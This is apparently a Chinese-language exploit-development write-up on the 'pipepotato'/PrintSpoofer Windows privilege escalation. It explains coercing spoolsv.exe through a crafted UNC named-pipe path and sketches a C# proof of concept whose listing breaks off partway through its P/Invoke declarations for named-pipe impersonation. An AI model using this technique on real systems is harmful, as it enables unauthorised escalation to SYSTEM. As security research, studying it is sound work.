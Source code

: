 pipepotato源于spoolsv.exe中的`RpcRemoteFindFirstPrinterChangeNotificationEx()`，<a href="https://docs.microsoft.com/zh-tw/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d">微软文档传送门</a>

它的第四个参数可以指向一个unc地址，比如如果输入`\\\\localhost`，则会访问`\\\\localhost\\pipe\\spoofss`。利用思路是在unc地址参数处填入`\\\\localhost\\pipe\\xx`这类地址，让它实际访问变为`\\\\localhost\\pipe\\xx\\pipe\\spoofss`。

就像上面说的，如果直接注册`\\pipe\\spoolss`会因为之前说的权限不足而失败，就不能将系统进程引到我们自建进程上，所以他才会想到通过注册`\\pipe\\xx\\pipe\\spoolss`的方式连接spoolsv.exe所占用的`\\pipe\spoolss`

### poc编写思路

需要编写的东西

- 一个rpc客户端调用spoolsv.exe的漏洞函数
- 一个pipe服务端用于连接系统进程以及提权

rpc客户端的编写c++有个固定的模板<a href="https://blog.csdn.net/swanabin/article/details/18766209">传送门</a>

源poc也是用的c++，再用c++写就没什么意义了，所以我换了c#写，不过c#写的poc复现失败了...

c#的rpc调用没有官方方法...要用第三方工具，powershell中用NtObjectManager获取rpc服务信息然后导出（支持直接导出为cs文件，可以直接在自己的程序中通过命名空间调用），再在c#中引入NtApiDotNet库，就可以调用rpc服务了。

但是把rpc服务的接口转成了c#后，调用函数时总会出错，目标函数需要有前置函数`RpcOpenPrinter()`或者`RpcAddPrinter()`,原本是返回一个`PRINTER_HANDLE`结构的地方由于第三方工具转c#的原因换成了第三方结构，然后函数怎么执行返回的都是0，导致后面的主要提权函数`RpcRemoteFindFirstPrinterChangeNotificationEx()`无法使用...

>python 也有个第三方库 `pythonforwindows` 可以调用本地rpc服务器，后面再试试

pipe服务端编写就和上面介绍的一样，没有什么过多好赘述的。

给出自己的辣鸡代码

```
using System;
using System.IO;
using System.IO.Pipes;
using System.Text;
using System.Threading;
using System.Runtime.InteropServices;
using System.Runtime.Versioning;
using System.Security.Principal;


class createprogress
{
    [DllImport("advapi32.dll", EntryPoint = "ImpersonateNamedPipeClient")]
    public static extern int ImpersonateNamedPipeClient(
        IntPtr hNamedPipe
);
    [StructLayout(LayoutKind.Sequential)]
    public struct STARTUPINFO
    {
        public uint cb;
        public string lpReserved;
        public string lpDesktop;
        public string lpTitle;
        public uint dwX;
        public uint dwY;
        public uint dwXSize;
        public uint dwYSize;
        public uint dwXCountChars;
        public uint dwYCountChars;
        public uint dwFillAttribute;
        public uint dwFlags;
        public short wShowWindow;
        public short cbReserved2;
        public IntPtr lpReserved2;
```